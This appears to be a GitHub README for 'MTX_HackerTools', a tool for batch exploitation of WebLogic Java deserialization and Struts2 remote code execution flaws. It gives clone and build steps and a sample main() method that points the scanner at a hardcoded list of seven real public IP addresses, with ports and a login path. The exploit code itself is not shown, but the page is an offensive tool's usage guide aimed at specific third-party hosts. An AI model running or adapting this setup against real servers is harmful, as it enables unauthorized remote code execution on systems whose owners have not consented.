 # MTX_HackerTools
1、weblogic java deserialize （批量java 反序列化漏洞渗透测试）
2、struts2 Remote Code Execution（批量struts2漏洞渗透测试）

# 代码更新
git clone https://github.com/hktalent/MTX_HackerTools.git

cd MTX_HackerTools
# 编译环境
jdk 1.6
# 使用
com.mtx.xiatian.Main
自己参照函数修改了
/**
	 * @param args
	 */
	public static void main(String[] args)
	{
		// 如果当前环境有代理，就使用系统设置的代理
		System.setProperty("java.net.useSystemProxies", "true");
		
		testWeblogic_Struts2(
				"60.173.247.15;222.168.33.117;58.210.227.26;218.62.83.78;183.131.128.215;222.168.33.108;124.42.10.247", 
				"7001;8001;7001;8080;80;9001;80,7001", 
				"/login");
	}

# 作者
QQ: 3135773
